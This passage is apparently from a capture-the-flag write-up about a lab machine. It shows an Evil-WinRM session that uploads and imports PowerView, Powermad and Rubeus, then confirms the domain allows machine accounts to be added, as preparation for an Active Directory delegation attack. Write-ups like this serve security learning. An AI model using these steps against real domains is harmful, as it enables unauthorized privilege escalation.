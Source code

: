#### Pull in Support Scripts / Exe

I’ll need three scripts to complete this attack:

- [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- [PowerMad.ps1](https://github.com/Kevin-Robertson/Powermad)
- [Rubeus.exe](https://github.com/GhostPack/Rubeus) (pre-compiled exes from [SharpCollection](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.5_x64))

I’ll upload these and import the two PowerShell scripts into my session:

```
*Evil-WinRM* PS C:\programdata> upload /opt/PowerSploit/Recon/PowerView.ps1
Info: Uploading /opt/PowerSploit/Recon/PowerView.ps1 to C:\programdata\PowerView.ps1
                                                    
Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\programdata> upload /opt/Powermad/Powermad.ps1
Info: Uploading /opt/Powermad/Powermad.ps1 to C:\programdata\Powermad.ps1

Data: 180780 bytes of 180780 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\programdata> upload /opt/SharpCollection/NetFramework_4.5_x64/Rubeus.exe
Info: Uploading /opt/SharpCollection/NetFramework_4.5_x64/Rubeus.exe to C:\programdata\Rubeus.exe
                                                             
Data: 369320 bytes of 369320 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
*Evil-WinRM* PS C:\programdata> . .\Powermad.ps1
```

#### Verify Environment

I’ll need to know the administrator on DC, which Bloodhound tells me is administrator@support.htb:

![image-20220527151617562](https://0xdfimages.gitlab.io/img/image-20220527151617562.png)

I’ll verify that users can add machines to the domain:

```
*Evil-WinRM* PS C:\programdata> Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquota

ms-ds-machineaccountquota
-------------------------
                       10
```

The quote is set to the default of 10, which is good.
